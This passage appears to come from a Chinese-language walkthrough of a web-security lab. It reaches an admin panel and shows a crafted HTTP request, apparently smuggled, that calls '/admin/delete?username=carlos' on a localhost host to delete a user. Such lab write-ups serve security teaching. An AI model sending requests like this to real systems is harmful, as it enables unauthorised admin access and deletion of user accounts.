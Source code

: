 ![](img/2ec44f2f6665ae7074d4e7b049521677.png)

管理面板

现在我们可以访问管理面板了。

删除卡洛斯！！！！

![](img/07f8e9c7d57bfd11dda5ec7549036daf.png)

```
0GET /admin/delete?username=carlos HTTP/1.1
Host: localhostx=
```

